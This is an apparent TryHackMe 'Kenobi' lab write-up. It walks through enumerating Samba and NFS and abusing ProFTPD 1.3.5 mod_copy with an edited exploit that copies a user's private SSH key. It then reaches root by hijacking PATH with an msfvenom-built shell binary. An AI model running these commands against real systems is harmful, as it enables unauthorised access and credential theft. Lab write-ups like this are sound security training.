 My write-up about the kenobi / tryhachme box.

# 1. Recon

Nmap scan result : 

| PORT           | STATE SERVICE | REASON                                                                 | VERSION                                                                     |
|----------------|---------------|------------------------------------------------------------------------|-----------------------------------------------------------------------------|
| 21/tcp         | open          | ftp                                                                    | syn-ack ttl 63 ProFTPD 1.3.5                                                |
| 22/tcp         | open          | ssh                                                                    | syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0) |
| 80/tcp         | open          | http                                                                   | syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))                               |
| 111/tcp        | open          | rpcbind                                                                | syn-ack ttl 63 2-4 (RPC #100000)                                            |
| 139/tcp        | open          | netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP) |                                                                             |
| 445/tcp        | open          | netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP) |                                                                             |
| 2049/tcp       | open          | nfs_acl                                                                | syn-ack ttl 63 2-3 (RPC #100227)                                            |
| 35099/tcp open | mountd        | syn-ack ttl 63 1-3 (RPC #100005)                                       |                                                                             |
| 44523/tcp open | nlockmgr      | syn-ack ttl 63 1-4 (RPC #100021)                                       |                                                                             |
| 44629/tcp open | mountd        | syn-ack ttl 63 1-3 (RPC #100005)                                       |                                                                             |
| 54641/tcp open | mountd        | syn-ack ttl 63 1-3 (RPC #100005)                                       |                                                                             |

### 21 - FTP

A ProFTPD server in version 1.3.5 is running on port 21,
Anonymous access is not authorized.

### 80 - HTTP

A webserver is running on port 80, but trying to bruteforce directories and files will not return 
something useful.

### 139/445 - SMB

A samba server is running, we can use <strong>enum4linux</strong> to discover accessible shares and users.

>enum4linux

Result : 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	anonymous       Disk      
	IPC$            IPC       IPC Service (kenobi server (Samba, Ubuntu))
  
Users :

S-1-22-1-1000 Unix User\kenobi (Local User)

The script found an anonymous share and a user named kenobi.

### NFS

The port 2049 seems to like the presence of an NFS share.
We will use <strong>showmount</strong> to enumerate NFS shares on the server

> showmount -e IP

| Export list for 10.10.207.147: |
|--------------------------------|
| /var *                         |

If we mount this NFS share, we could access the /var directory of the server

# 2. Accessing the SMB share

We can use <strong>smbclient</strong> to connect to a remote samba share.
> smbclient //IP/anonymous

On the share we can download a single file "log.txt", with not very interessting informations.

# 3. Mouting the NFS share

To mount an NFS share, we will need to use the <strong>mount</strong> utiliy.
> sudo mount IP:/var /your_mount_location

I used the /mnt directory.

Exploring the /var directory let use access the webserver directory, and confirm that there is not something useful on the webserver.

# 4. Accessing the server

In our reconnaissance we found an FTP server, a ProFTPD running on version 1.3.5.
When googling this, we can found exploit of the 'mod_copy' letting the door open to RCE.
> https://www.exploit-db.com/exploits/49908

An unauthentificated user can copy file from a location on the server to another location on the server.
Trying to run alone the previous found script, will throw errors because the ftp user can't write in the webserver directory.
But remembering that we had mount the /var directory of the file server, we can use the script to copy file to the /var/tmp directory
annd access it using our mounted share.

We know that there is a user named <strong>kenobi</strong>, let's copy his ssh keys.

We need to modify a bit the exploit by replacing lines 22 to 25 with : 

    client.send(b'site cpfr /home/kenobi/.ssh/id_rsa\r\n')
    print(client.recv(1024).decode())
    client.send(b'site cpto /var/tmp/id_rsa\r\n')
    print(client.recv(1024).decode())

This will copy the id_rsa of kenobi in a folder we can access.

We can now connect to the server using :
> ssh kenobi@IP -i id_rsa

# 5. Getting root

There is no crontab, access to sudo -l, but we can find if there are abnormal SUID files.
> find / -perm -u=s 2>/dev/null

I will only show abnormal/unusual files :

| interesting SUID files |
|------------------------|
| /usr/bin/menu          |

When launching this "menu", the program prompt us three choices :
1. status check
2. kernel version
3. ifconfig

Using <strong>strings</strong> utility, we can find that the menu program make call to :
curl
uname
ifconfig

There is a vulnerability here, the program make a call to a relative path, and not an absolute path like /sbin/ifconfig
Since the relative path will look for a file using our PATH variable, and since we control the PATH
We can craft a custom ifconfig binary, modify our path to make the /usr/bin/menu use our binary with root permission.

I will use msfvenom to craft our custom binary :
msfvenom -p linux/x64/exec CMD="/bin/bash -p" -f elf > ifconfig

the "-p" is important, because if not used, root permissions will no be conserved.

We now have our custom binary that spawn a shell, we will use a python server to transfer our binary on the target server.

After this, we will make the binary exectuable:
> chmod +x ifconfig

and modify our path.
Let's say that our binary is in /home/kenobi
We will change our path using :
> export PATH=/home/kenobi:$PATH

After this, launching the /usr/bin/menu and making option 3 will spawn us a root shell.

